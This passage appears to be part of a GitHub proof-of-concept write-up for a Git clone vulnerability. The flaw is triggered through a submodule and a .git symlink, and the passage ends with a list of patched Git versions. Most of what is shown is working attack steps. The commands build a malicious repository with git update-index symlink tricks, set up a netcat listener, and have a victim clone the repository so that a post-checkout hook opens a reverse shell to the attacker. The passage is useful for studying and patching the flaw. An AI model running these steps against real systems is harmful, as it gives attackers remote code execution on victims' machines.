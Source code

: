 ```sh
cd ..

# Clone another repository and set up the submodule
git clone http://<ip>:3000/temp/repo2.git
cd repo2
git submodule add --name x/y "http://<ip>:3000/<name of the owner>/repo1.git" A/modules/x
git commit -m "Add submodule"

# Create a symbolic link to the .git directory
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "Add symbolic link"
git push

# Clone the malicious repository to trigger the hook
git clone http://<ip>:3000/temp/repo2.git
```

#### Execution

1. **Run the PoC Script**: Execute the script on the attacker's machine (Execute the commands one by one for better result)
2. **Start Netcat Listener**: On the attacker's machine, start a Netcat listener to catch the reverse shell connection:
   ```sh
   nc -lvp <attacker_port>
   ```
3. **Clone the Malicious Repository**: On the victim's machine, clone the `repo2` repository:
   ```sh
   git clone http://<ip>:3000/temp/repo2.git
   ```

This will trigger the execution of the `post-checkout` hook, establishing a reverse shell connection to the attacker's machine.

#### Important Note

This PoC is for educational purposes only. Exploiting vulnerabilities without permission is illegal and unethical. Always ensure you have explicit permission before testing or exploiting vulnerabilities.


# Mitigation and Patching

The Git development team has addressed this vulnerability in the following versions:

- 2.45.1
- 2.44.1
- 2.43.4
- 2.42.2
- 2.41.1
- 2.40.2
- 2.39.4
